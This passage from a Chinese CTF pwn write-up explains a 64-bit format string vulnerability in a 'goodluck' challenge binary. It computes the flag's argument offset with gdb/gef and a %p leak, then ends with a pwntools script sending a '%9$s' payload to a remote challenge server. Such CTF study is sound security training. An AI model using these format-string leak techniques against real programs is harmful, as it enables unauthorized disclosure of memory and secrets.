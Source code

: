 ```shell
gef➤  fmtarg 0x00007fffffffdb28
The index of format argument : 10
```

需要注意的是我们必须 break 在 printf 处。

> 来自 resery 师傅注解：
>
> 这里的 10 是由 5+5 得到的，至于为什么是这两个 5 是从哪里的得到的，我来解释一下，前面的 5：由于 64 为程序，前 64 个参数是存在寄存器中的，分别是 rdi，rsi，rcx，rdx，r8，r9，所以第一个格式化字符串是存储在 rdi 中的，所以 flag 对应的偏移就应该是 5+flag 在栈中的偏移，在栈中的偏移就很好理解了就是 5，所以 flag 对应的格式化字符串偏移为 10

**注解**

1. 我安装的 Pwndbg 并没有 fmtarg  ，可能是版本不对，如果需要安装一下 gef 插件。

2. 两个作者都解释了偏移 10 是怎么计算来，但我更喜欢的方法是**输入一长串 %p 得出输入字符串的偏移是多少，然后再计算目标偏移或地址**。

   ```shell
   $ ./goodluck 
   what's the flag
   bbbbbbbb%p%p%p%p%p%p%p%p%p%p%p
   You answered:
   bbbbbbbb0x6020100x7ffff7dd37800x7ffff7b042c00x7ffff7fdc7000x7ffff7fdc7010x620000010x6028300x6020100x7fffffffdd300x6161617b67616c660x6161616161616161
   But that was totally wrong lol get rekt
   ```

   0x602830 是第 7 位。为什么泄露的不是 0x6262626262626262 ？前面提到了，64 位系统的前六个参数是寄存器传参的，而 bbbbbbbb 是第一个参数自然在寄存器中存放，0x602830 就是存储的寄存器地址。怎么获得这个地址？gdb 调试断点打在 printf 函数：

   ![fmrstr_0](img\fmrstr_0.png)

   这样得出最后的 flag 偏移为 10 。

#### 利用程序 

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# 这个库没有用到可以注释掉
# from LibcSearcher import *
goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')
payload = "%9$s"
print payload
##gdb.attach(sh)
sh.sendline(payload)
```